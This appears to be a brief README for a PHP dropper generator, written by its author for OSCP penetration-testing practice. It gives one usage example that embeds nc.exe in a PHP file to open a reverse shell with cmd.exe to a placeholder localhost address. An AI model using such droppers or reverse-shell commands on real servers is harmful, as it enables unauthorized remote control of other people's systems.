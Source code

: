 # Super Tiny PHP Dropper Stub.
                          
This Project was coded to simplify my life during my PWK/OSCP journey.

I hope you will find it useful.

Example : 
 
dcsc_phpdropper_gen.py -f nc.exe -o reverse_shell.php -c "127.0.0.1 1403 -e cmd.exe"
 
~@DarkCoderSc 
   --> https://www.twitter.com/DarkCoderSc         

